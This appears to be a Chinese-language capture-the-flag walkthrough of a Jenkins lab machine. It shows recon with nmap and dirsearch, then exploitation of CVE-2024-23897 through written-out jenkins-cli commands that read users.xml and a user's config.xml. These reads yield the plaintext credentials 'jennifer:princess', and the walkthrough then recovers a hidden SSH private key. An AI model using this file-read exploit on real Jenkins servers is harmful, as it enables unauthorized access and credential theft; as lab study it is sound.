---

---


# nmap



# 8080端口

左下角有版本信息，搜索到该版本存在本地文件读取漏洞



## dirsearch



/api下还有一些目录，但都没有有用信息



## cve-2024-23897

先从靶机下载jar包

```
wget http://10.10.11.10:8080/jnlpJars/jenkins-cli.jar
```

读取敏感目录，得到jenkins用户目录在`/var/jenkins_home`下



那么可以直接读取到user.txt



### 目录结构





#### user.xml

```
java -jar jenkins-cli.jar -s http://10.10.11.10:8080 -http reload-job "@/var/jenkins_home/users/users.xml"
```



#### /jennifer_12108429903186576833/config.xml

```
java -jar jenkins-cli.jar -s http://10.10.11.10:8080 -http reload-job "@/var/jenkins_home/users/jennifer_12108429903186576833/config.xml"
```





```
jennifer:princess
```

#### 登录到jenkins



但是私钥还是隐藏的，在源码中发现了隐藏的私钥，是base64加密的



[jenkins：利用script console - FreeBuf网络安全行业门户](https://www.freebuf.com/articles/web/376186.html)

该文章中有解密函数的使用，对该段进行解密即可得到私钥，使用私钥进行ssh连接，将权限设置为600，然后连接

